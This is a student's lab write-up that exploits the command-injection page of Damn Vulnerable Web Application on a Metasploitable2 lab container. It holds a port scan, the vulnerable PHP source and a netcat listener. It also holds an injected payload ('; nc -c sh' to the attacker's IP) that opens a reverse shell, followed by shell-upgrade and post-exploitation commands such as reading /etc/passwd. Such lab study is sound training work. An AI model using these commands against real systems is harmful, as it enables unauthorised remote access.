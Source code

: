 This lab uses [the N2H (Noobs 2 Hackers) Red Team Guide from ODU's Cybersecurity Student Association (CS2A) ](https://github.com/Cybersecurity-Student-Association/n2h-red/tree/main/01-Reverse%20Shells) 
## Intelligence Gathering
### Open Ports
Running the command 
```bash
sudo nmap -sV -sS -sC -A 192.168.56.117 -p-
```
(the IP address of my SEED VM ```192.168.56.117```) results in the following:
```
Nmap scan report for 192.168.56.117
Host is up (0.00026s latency).
Not shown: 65531 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:28:9a:6a:5e:b3:bf:cd:e5:36:3e:e8:13:ab:66:ba (RSA)
|   256 1a:fe:85:67:97:e9:47:0d:f7:6c:34:3c:35:4a:27:8d (ECDSA)
|_  256 53:fa:03:b6:15:44:8c:fd:4b:e1:76:2e:ef:12:a7:c3 (ED25519)
23/tcp open  telnet  Linux telnetd
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
MAC Address: 08:00:27:88:55:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
192.168.56.111
TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 192.168.56.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.47 seconds
```

Opening the HTTP service on port 
The default credentials for [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA) are `admin/password`

## Vulnerability Analysis
Going to the `Command Execution` tab in DVWA, there is a field allowing users to ping an IP address. A screenshot of the page: 
![[Command_Injection_Screenshot.png]]
The "View Source" button gives the source code of the page. The source code is:
```php
 <?php if (isset($_POST["submit"])) {
     $target = $_REQUEST["ip"];

     // Determine OS and execute the ping command.
     if (stristr(php_uname("s"), "Windows NT")) {
         $cmd = shell_exec("ping  " . $target);
         echo "<pre>" . $cmd . "</pre>";
     } else {
         $cmd = shell_exec("ping  -c 3 " . $target);
         echo "<pre>" . $cmd . "</pre>";
     }
 } ?> 
```
From the code above, we can see that the `ip` field is vulnerable to command injection. This is what is known at remote code execution (RCE). This essentially means that any commands can be run on the machine through the `ip` field. RCE vulnerabilities can be mitigated by sanitization of input. Input sanitization removes unsafe characters from inputs. In this case, the semicolon (`;`) gives the ability to exit the `ping` command and execute another command.  
## Exploitation - Reverse Shells
### Step 1 - The Listener
```bash
nc -lnvp 9001
```
The program `netcat` is used to listen for incoming connections on port 9001. Here is a breakdown of the command:
- `nc` - the program `netcat`
- `-l` - create a listener
- `-n` - use numeric-only IP addresses
- `-v` - verbose mode
- `-p` - a port number. I chose 9001
Note: While I explain the different modifiers separately, they can be combined into a group. Linux allows combinations of switches for faster execution.
### Step 2 - Exploit RCE to Initiate the Reverse Shell
[This Reverse Shell Generator](https://www.revshells.com/) gives multiple commands which will create a reverse shell back to the attacker. In the `ip` field on the page, I enter my chosen reverse shell command.  The following worked for me: 
```bash
; nc -c sh 192.168.56.111 9001
```
A breakdown of the command:
- `;` -  the semicolon ends the previous command.
- `nc` - the netcat command
- `-c sh` - the command to execute when the connection is successful
- `192.168.56.111` - the IP address of my attacker machine
- `9001` - the port on my attacker machine listening for incoming connections
To the victim, the command will look like this:
```bash
ping ; nc -c sh 192.168.56.111 9001
```
The `ping` command will execute, but it will have no IP address to ping. Following that, the reverse shell will execute. It will create a connection back to the listener on the attacker machine. 
### Step 3 - Upgrading the Shell
From the [guide](https://github.com/Daniel-Tomov/n2h-red/blob/main/01-Reverse%20Shells/README.md) :
>Reverse shells are useful, but they have some limitations. For example, the key combination `ctrl-C` is a very common way to terminate a command in the shell. But, if you try this key combination in the reverse shell, you'll kill the shell and have to reestablish that connection, which can sometimes be very cumbersome. A common technique to upgrade a reverse shell is to use the Python TTY module.

To "upgrade" the shell, I used the following command in the terminal on the attacker side:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
Then press \<ctrl-z\> to put the process in the background. \<ctrl-z\> puts me back to the regular Kali shell. Then I use
```bash
stty raw -echo; fg
```
and 
```bash
export TERM=xterm
```
to get a "full" shell with ctrl-c and ctrl-l support.
## Post Exploitation
Below are the answers to the post exploitation questions from the guide:
- How many other users are on this machine? How do you know?
In the screenshot below, I ran the command
```bash
cat /etc/passwd | grep -v -E "/bin/false|nologin"
```
to see which users are on the system. I excluded users with `/bin/false` and `/usr/sbin/nologin` as default shells because they cannot login. There is one account which is an exception. The `ftp` user has a shell of `/bin/false`, but it has a folder in the `/home` folder. 
![[Users.png]]
- Can we use the credentials we found earlier for anything? If so, for what?
I tried using the `admin/password` credentials from earlier to login into the `ftp`, `user`, and `service` accounts, but the password `password` did not work. 
- Are there any other listening services/ports? (hint: use the `ss` and `netstat` utilities)
Running netstat shows there many processes with open ports running on the machine.
![[netstat.png]]
- What is the IP address of the exploited machine? Is this address the same as the one you used to access the website? Why or why not? If not, what does this suggest?
The IP of the exploited machine in this case is the `metasploitable2` Docker container. It will have a different IP address than the machine the Docker container is running on. In my case, the SEED VM has an IP address of `192.168.56.117`, but the metasploitable2 container's IP address is `172.16.10.2`. Docker IP addresses are usually in this format (`172.17.0.0/16` but the `docker-compse.yml` file specifies the `172.16.0.0/16` network). This indicates the DVWA application I attacked is running inside a Docker container.
- What other programs are running? Do any of them jump out as privilege escalation vectors? i.e., if we exploit them for a shell, which user will be running that shell?
The screenshot below contains the running processes in the metasploitable2 container. The `root` user has some processes. Maybe they can be exploited to gain further access.
![[Running_Processes.png]]